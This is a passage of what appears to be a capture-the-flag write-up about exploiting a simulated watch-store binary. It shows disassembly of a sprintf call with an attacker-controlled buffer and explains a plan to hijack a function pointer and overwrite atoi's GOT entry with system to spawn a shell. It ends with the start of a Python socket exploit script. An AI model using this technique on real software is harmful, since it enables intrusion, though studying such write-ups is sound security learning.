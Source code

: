 Tricky overflow
---------------

That function at `0x0804932e` looks like this:

```
 804932e: push   ebp
 804932f: mov    ebp,esp
 8049331: sub    esp,0x10
 8049334: mov    eax,DWORD PTR [ebp+0x8]
 8049337: lea    edx,[eax+0x24]
 804933a: push   edx
 804933b: lea    edx,[eax+0x4]                   ; name
 804933e: push   DWORD PTR [eax+0x74]            ; price
 8049341: push   edx                             ; description
 8049342: imul   eax,DWORD PTR [eax+0x78],0x14   ; type of watch
 8049346: add    eax,0x804b140
 804934b: push   eax
 804934c: push   0x80495aa                       ; format string
 8049351: push   DWORD PTR [ebp+0xc]             ; char *buffer: ATTACKER-SUPPLIED!
 8049354: call   80486c0 <sprintf@plt>
 8049359: add    esp,0x20
 804935c: leave  
 804935d: ret    
```

I chose to overwrite the function pointer in the item struct with  with `0x8049b64`. This causes the program to call `0x804932e` instead of the 'get wholesale price'-function **with an attacker supplied argument**. This will allow me to overwrite a piece of memory with the generated string. If I set the description or name of an item correctly and I applied a correct offset, I could overwrite anything I want. There was some collateral damage to surrounding memory, however, making it impossible to overwrite a got pointer directly. The program contains another puzzle piece and I wanted to gain control over that instead.

Going for the big bucks
-----------------------

On the heap was an integer (or DWORD) that holds the amount of money that the simulated store customer has. The program substracts from this amount when a purchase is done, making it potentially a write-primitive. The *pointer* to this heap address lives at `0x804b280`. I wanted to overwrite this pointer with the address of `atoi@got`. Then, I would be able to update the pointer at `atoi@got`. Why `atoi`? Because it also uses one argument, just like `system`. If I could make `atoi` point to `system`, I had an easy way of spawning a shell. I modified the poc to do this:

```
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
```
